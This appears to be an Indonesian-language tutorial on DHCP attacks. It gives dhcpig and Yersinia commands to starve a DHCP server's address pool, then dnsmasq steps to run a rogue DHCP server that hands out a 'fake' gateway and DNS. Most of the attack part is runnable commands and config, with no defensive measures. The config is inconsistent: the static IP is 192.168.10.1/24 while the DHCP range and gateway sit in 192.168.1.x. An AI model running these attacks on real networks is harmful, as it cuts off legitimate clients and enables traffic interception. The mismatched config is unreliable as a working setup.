

# DHCP Rogue

## 1. DHCP Starvation dengan dhcpig

### Pengertian dhcpig
`dhcpig` adalah tool open-source yang digunakan untuk melakukan serangan **DHCP Starvation**. Serangan ini bertujuan untuk menghabiskan semua alamat IP yang tersedia di server DHCP sehingga klien sah tidak dapat memperoleh alamat IP.

### Cara Kerja DHCP Starvation
- `dhcpig` mengirimkan banyak permintaan **DHCP Discover** dengan berbagai alamat MAC palsu.
- Server DHCP akan memberikan respon **DHCP Offer** untuk setiap permintaan yang diterima.
- Karena setiap permintaan berasal dari alamat MAC yang berbeda, server menganggapnya sebagai klien unik dan mengalokasikan IP baru untuk setiap permintaan.
- Akhirnya, pool alamat IP akan habis, menyebabkan klien sah gagal mendapatkan alamat IP.

### Contoh Perintah DHCP Starvation dengan dhcpig
Untuk menjalankan serangan dengan `dhcpig`, gunakan perintah berikut di sistem berbasis Linux:
```bash
sudo dhcpig -i eth0
```
- `-i eth0` menentukan antarmuka jaringan yang digunakan untuk serangan.

### Alternatif Lain untuk DHCP Starvation
Selain `dhcpig`, ada juga tool lain yang bisa digunakan untuk DHCP Starvation seperti:
- **Yersinia**: Tool untuk menyerang berbagai protokol jaringan, termasuk DHCP.
  ```bash
  sudo yersinia dhcp -attack 1
  ```
  (Attack 1 adalah mode starvation pada Yersinia)

## 2. Membuat DHCP Rogue dengan dnsmasq

### Instalasi dnsmasq
Untuk membuat DHCP Rogue menggunakan `dnsmasq`, ikuti langkah berikut:
```bash
sudo apt update && sudo apt install dnsmasq -y
```

### Konfigurasi IP Statis
Sebelum mengaktifkan DHCP Rogue, pastikan antarmuka jaringan memiliki alamat IP statis:
```bash
sudo ip addr add 192.168.10.1/24 dev eth0
```
Atau gunakan `nmtui` (Network Manager Text User Interface) untuk mengatur IP:
```bash
nmtui
```
Ubah IP menjadi **192.168.10.1** pada antarmuka jaringan yang sesuai.

### Konfigurasi dnsmasq
Edit file konfigurasi `dnsmasq`:
```bash
sudo nano /etc/dnsmasq.conf
```
Tambahkan atau ubah konfigurasi berikut:
```ini
interface=eth0  # Ganti dengan interface yang digunakan

dhcp-range=192.168.1.10,192.168.1.200,12h  # Rentang alamat IP untuk klien
dhcp-option=3,192.168.1.1  # Gateway palsu (bisa disesuaikan)
dhcp-option=6,8.8.8.8,8.8.4.4  # DNS palsu
```

Simpan file dan keluar, lalu restart layanan `dnsmasq`:
```bash
sudo systemctl restart dnsmasq
sudo systemctl enable dnsmasq
```

### Verifikasi DHCP Rogue Berjalan
Periksa log untuk memastikan `dnsmasq` berjalan dengan benar:
```bash
sudo journalctl -u dnsmasq --no-pager | tail -n 20
```

Gunakan `tcpdump` untuk melihat trafik DHCP:
```bash
sudo tcpdump -i eth0 port 67 or port 68 -n
```
Jika berhasil, setelah pool DHCP asli habis, klien akan mulai mendapatkan alamat IP dari DHCP Rogue yang telah dibuat.



### Alternatif Lain untuk DHCP Server
Selain `dnsmasq`, ada beberapa opsi lain untuk membuat DHCP Server, seperti:
- **ISC DHCP Server**: DHCP server yang lebih kompleks dan memiliki banyak fitur tambahan.
  ```bash
  sudo apt install isc-dhcp-server -y
  ```

## Kesimpulan
- `dhcpig` dapat digunakan untuk serangan **DHCP Starvation** dengan cara menghabiskan IP pool pada server DHCP.
- `dnsmasq` dapat digunakan untuk membuat **DHCP Rogue** agar klien yang tidak mendapatkan IP dari DHCP asli tetap bisa mendapatkan IP.
- Monitoring menggunakan `tcpdump` membantu dalam melihat trafik DHCP untuk memastikan keberhasilan serangan atau konfigurasi DHCP Rogue.

Dengan tutorial ini, diharapkan pengguna dapat memahami bagaimana DHCP Starvation dan DHCP Rogue bekerja serta bagaimana mengimplementasikannya menggunakan `dhcpig` dan `dnsmasq`.